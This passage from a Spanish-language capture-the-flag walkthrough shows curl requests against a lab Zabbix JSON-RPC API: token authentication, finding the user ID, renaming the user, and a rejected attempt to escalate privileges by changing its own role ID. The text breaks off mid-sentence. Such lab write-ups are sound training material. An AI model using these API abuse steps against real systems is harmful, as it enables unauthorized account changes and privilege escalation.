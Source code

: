 El endpoint de la API es `/api_jsonrpc.php`, vamos a hacer una prueba[ siguiendo la documentación de la API](https://www.zabbix.com/documentation/current/en/manual/api/reference/user/get) para solicitar la información de todos los usuarios para ver si nos estamos autenticando correctamente.

```console
curl -X POST --url http://10.129.120.77/zabbix/api_jsonrpc.php --header 'Content-Type: application/json-rpc' --data '{"jsonrpc": "2.0", "method":"user.get", "params":{"output": "extend"},"auth":"noexisteobviamente", "id": 1}'
{"jsonrpc":"2.0","error":{"code":-32602,"message":"Invalid params.","data":"Session terminated, re-login, please."},"id":1}
```

Vemos que con un token no válido nos reporta un error, pero si utilizamos el API Token que hemos generado, nos devuelve algo aunque está vacío, pero es buena señal.
```console
curl -X POST --url http://10.129.120.77/zabbix/api_jsonrpc.php --header 'Content-Type: application/json-rpc' --data '{"jsonrpc": "2.0", "method":"user.get", "params":{"output": "extend"},"auth":"98d789981ffe40fca9fdce196750adc56443aaeed9d3e65c95c92162e7bccdc0", "id": 1}
```

Vamos a intentar cambiar el nombre de nuestro usuario utilizando el método `user.update`, para ello primero necesitamos saber cual es nuestro ID de usuario, lo podemos consultar utilizando el método `user.checkAuthentication` y pasando como parámetro nuestro API Token.
```console
curl -X POST --url http://10.129.120.77/zabbix/api_jsonrpc.php --header 'Content-Type: application/json-rpc' --data '{"jsonrpc": "2.0", "method":"user.checkAuthentication", "params":{"token": "98d789981ffe40fca9fdce196750adc56443aaeed9d3e65c95c92162e7bccdc0"}, "id": 1}'
{"jsonrpc":"2.0","result":{"userid":"3","username":"matthew","name":"Matthew","surname":"Smith","url":"","autologin":"1","autologout":"0","lang":"en_US","refresh":"30s","theme":"default","attempt_failed":"0","attempt_ip":"","attempt_clock":"0","rows_per_page":"50","timezone":"system","roleid":"1","userdirectoryid":"0","ts_provisioned":"0","debug_mode":0,"deprovisioned":false,"gui_access":0,"mfaid":0,"auth_type":0,"type":1,"userip":"10.10.14.197"},"id":1}% 
```

Vemos que somos el ID 3.

Ahora con el método `user.update` probamos a cambiar el nombre del usuario y vemos que nos devuelve una respuesta correcta.
```console
curl -X POST --url http://10.129.120.77/zabbix/api_jsonrpc.php --header 'Content-Type: application/json-rpc' --data '{"jsonrpc": "2.0", "method":"user.update", "params":{"userid": "3", "name": "POINTED"},"auth":"98d789981ffe40fca9fdce196750adc56443aaeed9d3e65c95c92162e7bccdc0", "id": 1}'
{"jsonrpc":"2.0","result":{"userids":["3"]},"id":1}
```

Y ahora podemos consultar y vemos que efectivamente, ha cambiado nuestro nombre.
```console
curl -s -X POST --url http://10.129.120.77/zabbix/api_jsonrpc.php --header 'Content-Type: application/json-rpc' --data '{"jsonrpc": "2.0", "method":"user.checkAuthentication", "params":{"token": "98d789981ffe40fca9fdce196750adc56443aaeed9d3e65c95c92162e7bccdc0"}, "id": 1}' | jq -r '.result.name'
POINTED
```

## Abusing Broken Access Control (Privilege Escalation)
Vamos a intentar cambiar nuestro valor de `roleid` que antes hemos visto que vale `1`. Quiero pensar que el rol de administrador será el `0` pero al intentar actualizarlo, resulta que se está 
```console
curl -X POST --url http://10.129.120.77/zabbix/api_jsonrpc.php --header 'Content-Type: application/json-rpc' --data '{"jsonrpc": "2.0", "method":"user.update", "params":{"userid": "3", "roleid": "0"},"auth":"98d789981ffe40fca9fdce196750adc56443aaeed9d3e65c95c92162e7bccdc0", "id": 1}'
{"jsonrpc":"2.0","error":{"code":-32602,"message":"Invalid params.","data":"User cannot change own role."},"id":1}
```
